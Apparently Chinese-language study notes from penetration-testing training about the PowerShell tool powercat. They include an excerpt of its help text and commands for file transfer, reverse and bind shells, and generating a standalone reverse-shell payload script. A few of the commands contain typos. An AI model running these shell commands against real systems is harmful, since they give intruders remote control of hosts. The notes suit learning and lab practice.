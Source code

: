```
                  powercat, like 'aaaaaa' | powercat -c 10.1.1.1 -p 80

  -o  <type>      Output. Specify how powercat should return information to the console.
                  Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.

  -of <path>      Output File.  Specify the path to a file to write output to.

  -d              Disconnect. powercat will disconnect after the connection is established
                  and the input from -i is sent. Used for scanning.

  -rep            Repeater. powercat will continually restart after it is disconnected.
                  Used for setting up a persistent server.

  -g              Generate Payload.  Returns a script as a string which will execute the
                  powercat with the options you have specified. -i, -d, and -rep will not
                  be incorporated.

  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>

  -h              Print this help message.
```

**powercat实现文件传输**

```
kali > nc -nvlp 443 > reveiving_powercat.ps1

windows>powercat -c 192.168.110.128 -p 443 -i C:\Users\Offsec\powercat.ps1
```

**powercat反弹shell**( 没搞懂用powershell 反弹cmd是什么降智操作)

```
kali > nc -nvlp 4444
windows > powercat -c 192.168.110.128 -p 4444 -3 cmd.exe  
```

**powercat 绑定shell**（同理感觉降智）

```
opowercat -l -p 443 -e cmd.exe

nc  -nv 10.11.0.22 443 
```

**powercat 独立有效负载**

**Powercat还可以生成独立的有效负载。在Powercat的上下文中，有效负载是一组PowerShell指令以及Powercat脚本本身的一部分，它只包括用户请求的功能。**

**添加-g选项并将输出重定向到一个文件来创建一个独立的反向shell有效负载**

```
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
PS C:\Users\offsec> ./reverseshell.ps1
```
